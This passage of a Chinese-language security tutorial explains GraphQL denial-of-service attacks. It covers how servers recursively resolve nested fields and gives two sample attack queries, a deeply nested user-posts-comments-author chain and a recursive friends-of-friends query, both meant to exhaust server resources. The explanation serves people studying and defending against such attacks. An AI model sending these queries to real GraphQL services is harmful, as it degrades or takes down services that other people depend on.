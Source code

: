 这种递归查询会导致服务器在处理查询时不断深入，最终导致系统资源耗尽。

### 1.3 底层实现机制
GraphQL服务器在处理查询时，通常会进行以下步骤：
1. **解析查询**：将GraphQL查询语句解析为抽象语法树（AST）。
2. **验证查询**：检查查询的合法性和类型匹配。
3. **执行查询**：根据查询语句，递归地解析每一层嵌套数据。

在处理深度嵌套或递归查询时，服务器需要递归地解析每一层数据，导致时间和空间复杂度急剧增加，最终导致系统资源耗尽。

## 2. 变种和高级利用技巧

### 2.1 深度嵌套查询
攻击者可以通过构造深度嵌套的查询语句，使得服务器在处理查询时消耗大量资源。例如：

```graphql
query {
  user {
    posts {
      comments {
        author {
          posts {
            comments {
              author {
                posts {
                  comments {
                    author {
                      # 继续嵌套...
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

### 2.2 递归查询
攻击者可以通过构造递归查询，使得服务器在处理查询时陷入无限循环。例如：

```graphql
query {
  user {
    friends {
      friends {
        friends {
          # 继续递归...
        }
      }
    }
  }
}
```
